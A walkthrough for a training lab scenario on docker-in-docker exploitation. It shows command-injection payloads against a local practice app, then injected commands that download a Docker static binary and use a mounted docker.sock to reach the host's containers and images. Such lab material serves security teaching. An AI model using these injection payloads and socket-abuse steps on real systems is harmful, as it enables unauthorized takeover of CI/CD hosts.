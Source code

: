 # DIND (docker-in-docker) exploitation

## Scenario Information

Most of the CI/CD and pipeline systems that use Docker and build containers for you within the pipeline use something called DIND (docker-in-docker). Here in this scenario, we try to exploit and gain access to the host system.

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

![Scenario 2 welcome](images/sc-2-1.png)

## Scenario Solution

* By looking at application functionality, identified that it has command injection vulnerability

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](images/sc-2-2.png)

* After performing quite some analysis, identified the there is a `docker.sock` mount available in the file system

```bash
;mount
```

![Scenario 2 mount](images/sc-2-3.png)

* Download the `docker` static binary from internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/)

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* Extract the binary from the `docker-19.03.9.tgz` file

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](images/sc-2-4.png)

* Access the host system by running the following docker commands with `docker.sock`

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock ps
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host containers](images/sc-2-5.png)
![Scenario 2 list host images](images/sc-2-6.png)

## Miscellaneous

TBD
